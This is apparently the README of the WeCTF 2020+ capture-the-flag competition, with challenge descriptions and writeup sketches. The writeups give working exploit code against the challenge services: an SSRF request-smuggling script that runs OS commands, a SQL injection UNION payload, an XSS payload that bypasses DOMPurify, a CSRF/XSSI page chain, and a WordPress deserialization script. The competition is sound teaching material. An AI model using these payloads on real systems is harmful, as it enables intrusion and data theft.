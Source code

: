 # WeCTF 2020+
Thank you all for participating! This README contains our writeup sketches. You can also share your writeup on CTFtime.

Event Link: https://ctftime.org/event/1072

## Run Challenges Locally
```shell
git clone https://github.com/wectf/2020p
cd 2020p && docker-compose up
```

The mapping is as following

```
localhost:8000 -> babyrev
172.129.1.100 -> KVCloud 
localhost:8003 -> dont-bf-me
localhost:8004 -> Hashtable
localhost:8005 -> Notebin 
localhost:8006 -> Wallet
```

## babyrev
38 solves

**Description**

Shou only allows his gay friends to view the flag here. We got intels that he used PHP extension for access control and we retrieved a weird binary.

Handout: https://github.com/wectf/2020p/blob/master/babyrev/babyrev.so

Author: @qisu

<details>
<summary>Writeup</summary>

The extension compares requests' user-agent with string "Flag Viewer 2.0".

PoC:
```bash
curl -H "User-Agent: Flag Viewer 2.0" [HOST]
```
</details>

## Red Team
61 solves

**Description**

We overheard that Shou's company hoarded a shiny flag at a super secret subdomain.

His company's domain: shoustinycompany.cf (Challenge is down now)

Note: You are allowed to use subdomain scanner in this challenge.


<details>
<summary>Writeup</summary>

Step 1: Do a subdomain scan and you would discover `docs.shoustinycompany.cf`

Step 2: You find a few files at that subdomain indicating we need to perform an AXFR attack at 161.35.126.226. 

`logs.txt`

```
[12/19] Eddie started the process following RFC 5936.
[12/18] Shou approved NS records transfering.
[12/17] Eddie proposed to transfer NS records to our looking glass server (161.35.126.226:53). 
[12/16] Shou appointed Eddie to be network admin.
```

`info.txt`

```
### Company's websites
Looking Glass: lookingglassv1.shoustinycompany.cf
Flag: [Removed by Shou]
```

Step 3: You find another subdomain `lookingglassv1.shoustinycompany.cf` with IP 161.35.126.226.

Step 4: Perform AXFR transaction at `lookingglassv1.shoustinycompany.cf` by 

```bash
dig AXFR shoustinycompany.cf @ns1.shoustinycompany.cf
```
</details>

## KVCloud 
13 solves

**Description**

Shou hates to use Redis by TCPing it. He instead built a HTTP wrapper for saving his key-value pairs.

Flag is at /flag.txt.

<details>
	<summary>Hint</summary>
	How to keep-alive a connection?
</details>

Note 1: Remote is not using 127.0.0.1 as Redis host.

Note 2: Try different host if your payload is not working remotely.

Handout: https://github.com/wectf/2020p/blob/master/kvcloud/handout.zip

<details>
<summary>Writeup</summary>

SSRF with Connection: keep-alive:
```python3
from requests import *
import urllib
port = 5000
cmd = b"import os; os.system('whoami')"
content_len = str(4 + len(cmd)).encode('ascii')
payload = urllib.parse.quote(b"/x\r\nConnection: keep-alive\r\n" +
	b"Pragma: no-cache\r\n\r\nPOST /debug HTTP/1.1\r\n" + 
	b"Host: 127.0.0.1:5000\r\nUser-Agent: curl/7.68.0\r\n"+ 
	b"Accept: */*\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: %s\r\n\r\ncmd=%s" % (
		content_len, cmd), safe='')
c = get("http://[HOST]:%s/get?redis_port=%s&key=%s" % (port, port, payload)).content
print(c)
print("http://[HOST]:%s/get?redis_port=%s&key=%s" % (port, port, payload))
```
</details>

## dont-bf-me 
36 solves

**Description**

Shou uses Recaptcha for his site to make it "safer".

<details>
	<summary>Hint</summary>
	The password is so long that makes any bruteforcing method impotent.
</details>

Handout: https://github.com/wectf/2020p/blob/master/dont-bf-me/handout.zip

<details>
<summary>Writeup</summary>

`parse_str` in login.php could overwrite $RECAPTCHA_URL and $CORRECT_PASSWORD. 
</details>

## Hashtable
15 solves

**Description**

Universal hashing could prevent hackers from DoSing the hash table by creating a lot of collisions. Shou doubt that. Prove him correct by DoSing this hash table implemented with universal hashing.

Note: having 10 collisions at the same slot would give you the flag

Handout: https://github.com/wectf/2020p/blob/master/hashtable/handout.zip

<details>
<summary>Writeup</summary>

Pseudo Random Number PoC:

Save following file as main.go and run `go run main.go [TIMESTAMP]`.
```go
package main

import (
	"fmt"
	"math/big"
	"math/rand"
	"os"
	"strconv"
)

const TableSize = 10000

var TableSizeBI = big.NewInt(int64(TableSize))

const MaxCollision = 10

type LinkedList struct {
	Content       [MaxCollision]int
	InsertedCount int // count of element in linked list
}

type HashTable struct {
	Content      [TableSize]*LinkedList // array for mapping hash to the linked list
	HashParam1   *big.Int               // p1 for hashing
	HashParam2   *big.Int               // p2 for hashing
	ElementCount int                    // count of all elements in hash table
}

func (t *HashTable) hash(value int) uint {
	v := big.NewInt(int64(value))
	var h big.Int
	h.Exp(v, t.HashParam1, t.HashParam2)
	h.Mod(&h, TableSizeBI)
	return uint(h.Uint64())
}

func (t *HashTable) insert(value int) bool {
	var elementHash = t.hash(value)                
	var linkedListForHash = t.Content[elementHash]
	linkedListForHash.InsertedCount++
	if linkedListForHash.InsertedCount > 10 {
		fmt.Println(linkedListForHash.Content)
		return true
	}
    t.ElementCount++
    linkedListForHash.Content[linkedListForHash.InsertedCount-1] = value
	return false 
}

func main() {
	var t HashTable
    x, _ := strconv.Atoi(os.Args[1])
	rand.Seed(int64(x))
	t.HashParam1 = big.NewInt(int64(rand.Intn(1 << 32)))
    t.HashParam2 = big.NewInt(int64(rand.Intn(1 << 32)))
    for i := 0; i < TableSize; i++ {
		t.Content[i] = &LinkedList{[MaxCollision]int{}, 0}
	}
	t.recreate()
	for i := 1 << 13; i < 1<<16; i++ {
		if t.insert(i) {
			break
		}
	}
}
```
</details>

## Hall of Fame
22 solves

**Description**

We made a Slack bot (@hof) to remember our past winners. Hope no one hacks it cuz we are running it on a really important database.

Handout: https://github.com/wectf/2020p/tree/master/hof

<details>
<summary>Writeup</summary>

SQL Injection

Send following content to @hof would yield the flag:
```
rank x') UNION SELECT 1,1,(SELECT flag from flags LIMIT 1) ---
```
</details> 

## Notebin 
8 solves

**Description**

Here is where Shou keeps his pathetic diaries and a shinny flag.

<details>
<summary>Writeup</summary>

DOM Clobbering => XSS

Set title as following could make content bypass DOMPurify.
```html
<a id="_debug"></a><a id="_debug" name="key" href="sha1:f03e8a370aa8dc80f63a6d67401a692ae72fa530"></a>
```
</details>

## Wallet
4 solves

**Description**

Shou has a habit of saving secret (i.e. flag) in the blockchain. Here is where he stores his bitcoin addresses.

Note: wrap what you find on blockchain with we{.....}
<details>
	<summary>Hint 1</summary>
	You should leak the bitcoin address in Shou's wallet first.
</details>

<details>
	<summary>Hint 2</summary>
	Shou is using Firefox. Firefox does not have CORB.
</details>

Handout: https://github.com/wectf/2020p/blob/master/wallet/handout.zip

<details>
<summary>Writeup</summary>
CSRF + XSSI + Some recon

0.html:
```html
<form action="http://[HOST]/address" method="post" id="f">
    <input name="address" value='xxxx"'/>
</form>
</body>
<script>
    f.submit()
</script>
```

1.html
```html
<form action="http://[HOST]/style" method="post" id="f">
    <input name="style" value='"Raw'/>
</form>
</body>
<script>
    f.submit()
</script>
```

2.html
```html
<div id=iframe2></div>
<div id=iframe3></div>
<script id="script1"></script>
<script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }
    async function main(){
        ifr2 = document.createElement('iframe');
        ifr2.name='attack';
        ifr2.src = "0.html";
        iframe2.appendChild(ifr2);
        await sleep(1000);
        ifr3 = document.createElement('iframe');
        ifr3.name='attack';
        ifr3.src = "1.html";
        iframe3.appendChild(ifr3);
        await sleep(1000);
        sc = document.createElement('script');
        sc.name='attack';
        sc.src = "http://[HOST]/";
        script1.appendChild(sc);
        await sleep(1000);
        dealwithit(style); // <= bitcoin address
    }
    main();
</script>
```

Save 0.html, 1.html, 2.html and send 2.html as payload. 

After getting the bitcoin address, you can find flag in OP_RETURN of one transaction. 
</details>

## Wordpress
2 solves

**Description**

Shou made his first wordpress plugin! Check it out!

Note 1: it is unnecessary to be admin to solve this challenge and to ensure the stability, we removed almost all possible ways to be admin.

Handout: https://github.com/wectf/2020p/blob/master/wordpress/handout.zip

<details>
<summary>Writeup</summary>
	
Wordpress Entry Overwrite + Unsafe Deserialization 
```python
from requests import *
HOST = "http://wordpress.ctf.so/"
import re
des_content = 'a:1:{i:0;O:5:"Upage":4:{s:7:"user_id";N;s:9:"user_info";a:0:{}s:4:"conf";s:5:"/flag";s:16:"disallowed_words";a:0:{}}}'
s = Session()

s.post(f"{HOST}wp-login.php", headers={ 'Cookie':'wordpress_test_cookie=WP Cookie check' }, data={
    "log": "[WORDPRESS EMAIL]",
    "pwd": "[WORDPRESS PASSWORD]",
    "wp-submit": "Log In",
    "redirect_to": HOST,
"testcookie": "1"
})


print(s.post(f"{HOST}wp-admin/admin.php?page=edit_upage", data={
    "key": "session_tokens",
    "value": des_content
}).text)

print(s.get(f"{HOST}wp-admin").text)
```
</details>


